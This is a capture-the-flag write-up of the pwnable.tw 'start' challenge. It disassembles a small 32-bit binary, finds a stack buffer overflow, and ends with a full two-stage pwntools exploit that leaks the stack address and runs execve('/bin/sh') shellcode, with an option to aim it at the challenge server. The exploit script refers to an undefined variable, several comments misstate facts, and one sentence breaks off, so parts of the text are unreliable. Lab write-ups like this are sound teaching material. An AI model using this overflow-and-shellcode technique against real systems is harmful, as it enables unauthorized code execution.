

# Pwnable.tw : Start

## Start challenge

So once you download the 'start' binary, we should begin by doing some static analysis (look at the assembly and try to understand it) before we do dynamic analysis (run the binary and look at how it behaves),

## Static Analysis

So lets start by trying to get more information about the binary.

```bash
> $ ls -blah start
-rwxrwxr-x 1 jmp-rax jmp-rax 564 Sep 15 23:24 start

> $ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

So there are two things we can immediately see by running two simple commands:

1. The binary is reaaaaaallly small. A simple hello world C binary can be on the order of several thousand bytes.
2. Its an elf binary, compiled for 32 bit systems. And its both statically linked (All the functions and symbols were included at compile/link time) and it wasn't stripped (meaning that things like function names, and other symbols we're removed from the binary)

So the next thing I'm going to do is use readelf to get a little more information since we now know this is an elf file. 

```bash
> $ readelf -a start
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x8048060
  Start of program headers:          52 (bytes into file)
  Start of section headers:          364 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           40 (bytes)
  Number of section headers:         5
  Section header string table index: 2

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 000043 00  AX  0   0 16
  [ 2] .shstrtab         STRTAB          00000000 00014b 000021 00      0   0  1
  [ 3] .symtab           SYMTAB          00000000 0000a4 000080 10      4   4  4
  [ 4] .strtab           STRTAB          00000000 000124 000027 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)

There are no section groups in this file.

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000000 0x08048000 0x08048000 0x000a3 0x000a3 R E 0x1000

 Section to Segment mapping:
  Segment Sections...
   00     .text

There is no dynamic section in this file.

There are no relocations in this file.

The decoding of unwind sections for machine type Intel 80386 is not currently supported.

Symbol table '.symtab' contains 8 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND
     1: 08048060     0 SECTION LOCAL  DEFAULT    1
     2: 00000000     0 FILE    LOCAL  DEFAULT  ABS start.s
     3: 0804809d     0 NOTYPE  LOCAL  DEFAULT    1 _exit
     4: 08048060     0 NOTYPE  GLOBAL DEFAULT    1 _start
     5: 080490a3     0 NOTYPE  GLOBAL DEFAULT    1 __bss_start
     6: 080490a3     0 NOTYPE  GLOBAL DEFAULT    1 _edata
     7: 080490a4     0 NOTYPE  GLOBAL DEFAULT    1 _end

No version information found in this file.


```

Without getting into how an ELF file is structured (Thats a talk for a different day), we can see from the symbol table that we have _start, and _exit labels. When you compile a program using gcc, the compiler will fill these functions out for you and eventually call your main function. Since all we have are _start, and _end labels and because of how small it is its probably safe to assume that the binary was written in x86 Assembly and then linked. 

The other thing we learned was the entry point address was  0x8048060. This can be useful during dynamic analysis.

### Decompiling

So lets dive into the binary using objdump. I'm going to use Intel syntax over AT&T because I prefer it. I'm going to annotate the output with x86 asm comments

```bash
> $ objdump -M intel -D start
```

```asm
start:     file format elf32-i386

; The .text section is where we store executable code
Disassembly of section .text:

; This is the start of the _start label, think of labels as sections of code
08048060 <_start>:
 8048060:       54                      push   esp
 ; push the _exit address onto the stack, so when we return we goto _exit
 8048061:       68 9d 80 04 08          push   0x804809d
 ; clear the following registers, equivalent to a mov eax, 0
 8048066:       31 c0                   xor    eax,eax
 8048068:       31 db                   xor    ebx,ebx
 804806a:       31 c9                   xor    ecx,ecx
 804806c:       31 d2                   xor    edx,edx
 ; push some hex onto the stack, 
 ; If we look it appears to base encodded ascii in little endian
 ; push "CTF:"
 804806e:       68 43 54 46 3a          push   0x3a465443
 ; push "the"
 8048073:       68 74 68 65 20          push   0x20656874
 ; push "art"
 8048078:       68 61 72 74 20          push   0x20747261
 ; push "s st"
 804807d:       68 73 20 73 74          push   0x74732073
 ; push "Let'"
 8048082:       68 4c 65 74 27          push   0x2774654c
 ; move the value of esp into ecx, In otherwords the start index of the buffer
 8048087:       89 e1                   mov    ecx,esp
 ; The AH, AL, BH, BL, CH, CL, DH, DL registers are simply 8 bit registers, and in x86 are 
 ; the [H]igher and [L]ower 8 bits of the 16 bit AX, BX, CX, and DX registers.
 ; Annnd AX, BX, CX, and DX are the lower 16 bits of EAX, EBX, ECX, and EDX..
 ; So basically when we set Al we are also setting EAX, and so on
 8048089:       b2 14                   mov    dl,0x14
 804808b:       b3 01                   mov    bl,0x1
 804808d:       b0 04                   mov    al,0x4
 ; So EAX=0x4, EBX=0x1, EDX=0x14
 ; int 0x80 is interrupt 0x80 is a system call and takes the following args:
 ; | syscall # | arg1 | arg2 | arg3 | arg4 | arg5 | arg
 ; |   EAX     | EBX  | ECX  | EDX  | ESI  | EDI  | EBP
 ; so if we look in unistd.h: 4 means write
 ; so this means we have write(int fd,  char* buf, size_t count)
 ; and the arguments we have are write(1, ecx, 20);
 804808f:       cd 80                   int    0x80
 ; set EBX = 0
 8048091:       31 db                   xor    ebx,ebx
 ; set EDI = 60
 8048093:       b2 3c                   mov    dl,0x3c
 ; set EAX = 3, (read)
 8048095:       b0 03                   mov    al,0x3
 ; ssize_t read(int fd, void *buf, size_t count);
 ; read(0, ecx, 60)
 8048097:       cd 80                   int    0x80
 ; Clear the stack pointer of the 14 bytes we pushed onto the stack
 8048099:       83 c4 14                add    esp,0x14
 ; return
 804809c:       c3                      ret

0804809d <_exit>:
 804809d:       5c                      pop    esp
 804809e:       31 c0                   xor    eax,eax
 ; set EAX = 1
 80480a0:       40                      inc    eax
 ; exit()
 80480a1:       cd 80                   int    0x80


```

### Understanding our Static Analysis

Woah, look how much we learned just by doing static analysis. 

Just by looking at the assembly we pretty much understand the entirety of the program. Now this wouldn't always be the case, especially if it was much much larger. But in general we can get a good idea for whats going on and where we should go just by understanding the assembly. 

So in practice what we learned was that the program was basically this:

```c
char buf[20] = "Let's start the ctf:";
write(1, buf, 20);
read(0, buf, 60);
exit()

```

So the vulnerability that exists here is a simple stack overflow but we've only allocated 20 bytes. Rip.  

## Dynamic Analysis

Since we know that we're probably going to (and by probably we will) crash. Lets just throw bunch of A's and B's and see what sticks. 

Here's a quick python script we're going to use, you will need pwntools (installable through pip) and I recommend installing pwndbg or peda for a better debugging experience

```python
#!python

# Use peda for better gdb
# https://github.com/longld/peda

# install pwntools
# pip install pwntools

#
from pwn import *
from struct import pack

import os

os.environ['LD_LIBRARY_PATH'] = os.getcwd()

challenge_bin = './start'

# print the ELF Binary Characteristics
elf  =  ELF(challenge_bin)
print(elf)

remote_connection = False

conn = None
if remote_connection:
    conn = remote('chall.pwnable.tw', 10000)
else:
    conn = process(challenge_bin)

entry_point = "0x08048060"
# read  = entry_point+55
# ret   = entry_point+60
# b *(main+NN) break point syntax
if  not remote_connection:
    gdb.attach(conn,
    """
    b {entry}
    b *({entry}+55)
    b *({entry}+60)
    continue
    """.format(entry=entry_point))

_ = conn.recvuntil("Let's start the CTF:")

payload =  ''
payload += 'A'* 20
payload += 'B'* 10

conn.sendline(payload)

conn.interactive(prompt="")

```

So when we run this we crash hard.

```bash
(ctf) > $ python solve.py
[*] '/home/jmp-rax/workspace/ctf/pwnable.tw/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
ELF('/home/jmp-rax/workspace/ctf/pwnable.tw/start/start')
[+] Starting local process './start': pid 31175
[*] running in new terminal: /usr/bin/gdb -q  "./start" 31175 -x "/tmp/pwnmEzC_y.gdb"
[+] Waiting for debugger: Done
[*] Switching to interactive mode
```

and from pwndbg/gdb:



### What we learned from this crash

1. ​	There are essentially no protections on this binary. In the real world this wouldn't normally be the case. Although you do occasionally get lucky.  (Highly recommend checking out: [What the fax](https://www.youtube.com/watch?v=qLCE8spVX9Q) by Eyal Itkin and Yaniv Balmas, relevant and funny)
2. The stack gets smashed with 0x42424242 otherwise known as BBBB
3. We have control of EIP. Nice.
4. Even though we can write 60 bytes, we only have 20 bytes to work with. Gross.

So now we have to figure out what we can do with this information.

## Exploit development

We could shove some shellcode in there vim 


The final exploit :)

```python
#!python
# 
# Exploit for 'start' over at pwnable.tw
#
# Use pwndbg for better gdb
# https://github.com/pwndbg/pwndbg
#
# install pwntools
# pip install pwntools

from pwn import *
from struct import pack
import sys
import os

os.environ['LD_LIBRARY_PATH'] = os.getcwd()

challenge_bin = './start'

# print the ELF Binary Characteristics
elf  =  ELF(challenge_bin)
print(elf)

remote_connection = False
debug = False
if (len(sys.argv) > 1 and sys.argv[1] == '--throwit'):
    remote_connection = True
elif (len(sys.argv) > 1 and sys.argv[1] == '--debug'):
    debug =  True

entry_point = 0x08048060
rop_gadget  = 0x08048087

# Stack is going to get realigned by 20 bytes when we send 20 A's
# but for some reason, the alignment is shifted by some value of
# [2A, 3A, 4A, 5A, 6A, 7A, 8A, 9A, AA, ..]
# ESP always ends up as 0xFFFFFF?A and we always need to jump to 0xFFFFFF?4
# So I guess just chose a random offset
offset = 0x3A

# jmp esp
jmp_esp_shellcode = asm('\n'.join([
    'jmp esp',
]), bits=32)

execve_bin_sh_shellcode = asm('\n'.join([
    'push {}'.format(u32('/sh\0')),
    'push {}'.format(u32('/bin')),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]), bits=32)


def exploit(conn):
    _ = conn.recvuntil("Let's start the CTF:")

    # Begin Stage1
    stage1 =  ''
    stage1 += '\x90'*(20-len(jmpesp_shellcode))
    stage1 += jmp_esp_shellcode
    stage1 += p32(rop_gadget)

    print("Stage1: Leaking memory to the heap")
    print("Sending: {}".format(repr(stage1)))
    conn.sendline(stage1)
    
    # Begin Stage2
    leak = u32(conn.recv()[:4])
    print("ESP      : {}".format(hex(leak)))
    print("ESP+{} : {}".format(hex(offset), hex(leak + offset)))

    stage2 =  ''
    stage2 += '\x90'*(20-len(jmpesp_shellcode))
    stage2 += jmp_esp_shellcode
    stage2 += p32(leak + offset)
    stage2 += execve_bin_sh_shellcode

    print("Stage2: Exploiting")
    print("Sending: {}".format(repr(stage2)))
    conn.sendline(stage2)


def throwing_it():

    conn = None
    if remote_connection:
        conn = remote('chall.pwnable.tw', 10000)
    else:
        if not debug:
            conn = process(challenge_bin)
        else:
            #    b {entry}
            #    b *({entry}+55) # READ
            #    b *({entry}+60) # RET
            conn = gdb.debug(challenge_bin,
                """
                b *({entry}+60)
                continue
                """.format(entry=entry_point))

    exploit(conn)

       # Check for EOF
    try:
        conn.recv(timeout=0.5)
    except(EOFError):
        conn.close()
        log.failure("Failed to Exploit")
        return


    log.success("BOOM got it :)")
    conn.interactive(prompt="")
    sys.exit()

while True:
    throwing_it()
```

